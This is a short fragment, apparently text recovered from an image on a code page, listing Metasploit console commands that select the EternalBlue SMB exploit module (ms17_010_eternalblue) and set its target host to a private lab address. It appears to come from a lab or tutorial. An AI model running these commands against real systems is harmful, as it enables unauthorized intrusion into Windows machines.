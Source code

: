 use exploit/windows/smb/ms17_010_eternalblue
show options

# set target

set rhosts 10.10.15.10

# check

show options
